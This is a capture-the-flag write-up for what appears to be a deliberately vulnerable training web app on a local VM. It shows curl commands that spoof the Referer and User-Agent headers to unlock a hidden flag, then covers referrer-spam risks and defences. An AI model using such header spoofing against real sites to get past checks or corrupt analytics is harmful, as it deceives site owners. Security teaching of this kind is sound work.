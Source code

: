 # Custom curl request with evil headers

## How we found the breach

After inspecting the page: `http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f` several suspicious html comments can be found inside it.

```html
<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

The first one suggests that we're coming from a specific url, well then lets just try it.

## Custom curl Referrer header

We will use `curl` to perform our requests, using `curl --header "Header_foo: bar"` we can define custom header key value pairs.
Also we will make a diff on the fly of the default page versus our custom curl.
First the `Referrer` header using `curl --header "Referer: https://www.nsa.gov/" url`.

```bash
diff <(curl --silent "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

As we can see the server sent back a different page content `FIRST STEP DONE`
The second suspicious comment is talking about a browser, lets play with the `User-Agent` header.

## Custom curl User-Agent header

Lets take our previous step command and add custom header for the user agent, using `curl --header "User-Agent: browser"`.

```bash
diff <(curl --silent "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" --header "User-Agent: ft_bornToSec" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

There we go ! In the returned page we can find the flag !

## How to exploit the breach

If the server makes assertions on the headers of the request, it should never be, then depending on the resulting operations can be really risky if any transaction or authentication is involved.

One more realistic hack is to send requests – with curl – to a website with a crazy `Referer` header. This header is monitored by websites to know where their users come from. A hacker may corrupt the statistics, which could mislead business decisions.

More information about how analytics service do to determine where users come from:

- https://plausible.io/docs/top-referrers
- https://plausible.io/blog/referrer-policy
- https://www.optimizesmart.com/geek-guide-removing-referrer-spam-google-analytics/
- https://kinsta.com/blog/google-analytics-spam/

## How to avoid the breach

As for everything that builds a request, specific headers can be set manually by an hacker.
To avoid such security issue, the server should not be making high risky assertion depending on the request's header.

To protect your analytics depending on what service you use you could either establish `regex` that would allow human readable referrer only or a blacklist forbidding known `Ghost Traffic` referrers.
